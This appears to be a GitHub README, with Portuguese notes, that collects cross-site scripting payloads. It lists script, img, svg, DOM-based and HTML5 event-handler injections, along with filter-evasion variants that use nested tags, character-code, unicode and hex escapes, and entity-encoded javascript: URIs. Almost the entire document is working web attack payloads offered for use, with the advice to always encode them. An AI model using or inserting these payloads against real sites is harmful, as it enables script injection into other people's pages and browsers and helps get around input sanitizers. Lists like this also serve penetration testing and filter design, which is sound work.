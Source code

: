 # XSS-scripts
Vários scripts voltados a exploração da vulnerabilidade XSS

OBS > SEMPREEEE ENCONDEEEE O SCRIPT

# XSS-Html

// Basic payload
<script>alert('XSS')</script>

<scr<script>ipt>alert('XSS')</scr<script>ipt>
  
"><script>alert('XSS')</script>
  
"><script>alert(String.fromCharCode(88,83,83))</script>
  
<script>\u0061lert('22')</script>
  
<script>eval('\x61lert(\'33\')')</script>
  
<script>eval(8680439..toString(30))(983801..toString(36))</script> //parseInt("confirm",30) == 8680439 && 8680439..toString(30) == "confirm"
  
<object/data="jav&#x61;sc&#x72;ipt&#x3a;al&#x65;rt&#x28;23&#x29;">

// Img payload
<img src=x onerror=alert('XSS');>
  
<img src=x onerror=alert('XSS')//
     
<img src=x onerror=alert(String.fromCharCode(88,83,83));>
  
<img src=x oneonerrorrror=alert(String.fromCharCode(88,83,83));>
  
<img src=x:alert(alt) onerror=eval(src) alt=xss>
  
"><img src=x onerror=alert('XSS');>
  
"><img src=x onerror=alert(String.fromCharCode(88,83,83));>

// Svg payload
  
<svgonload=alert(1)>
  
<svg/onload=alert('XSS')>
  
<svg onload=alert(1)//
     
<svg/onload=alert(String.fromCharCode(88,83,83))>
  
<svg id=alert(1) onload=eval(id)>
  
"><svg/onload=alert(String.fromCharCode(88,83,83))>
  
"><svg/onload=alert(/XSS/)
              
<svg><script href=data:,alert(1) />(test)
  
<svg><script>alert('33')
  
<svg><script>alert&lpar;'33'&rpar;
  
# DomBased XSS
  // obs: Utilizar a extensão DOM Invader
  
123#"><img src=/ onerror=alert(2)>123

# XSS Html 5

<body onload=alert(/XSS/.source)>
  
<input autofocus onfocus=alert(1)>
  
<select autofocus onfocus=alert(1)>
  
<textarea autofocus onfocus=alert(1)>
  
<keygen autofocus onfocus=alert(1)>
  
<video/poster/onerror=alert(1)>
  
<video><source onerror="javascript:alert(1)">
  
<video src=_ onloadstart="alert(1)">
  
<details/open/ontoggle="alert`1`">
  
<audio src onloadstart=alert(1)>
  
<marquee onstart=alert(1)>
  
<meter value=2 min=0 max=10 onmouseover=alert(1)>2 out of 10</meter>

<body ontouchstart=alert(1)> //
  
<body ontouchend=alert(1)>   // 
  
<body ontouchmove=alert(1)>  // 



